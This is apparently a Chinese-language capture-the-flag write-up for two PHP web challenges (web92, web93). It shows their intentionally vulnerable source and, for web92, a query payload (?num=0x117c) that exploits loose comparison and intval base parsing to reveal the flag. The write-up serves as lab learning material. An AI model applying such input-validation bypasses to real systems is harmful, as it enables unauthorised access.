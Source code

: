 ### web92

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

和90题一样

变成了弱比较

payload不变

payload

```
?num=0x117c
```

得到flag

![image-20240507134605155](image/image-20240507134605155.png)

---

### web93

```php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```
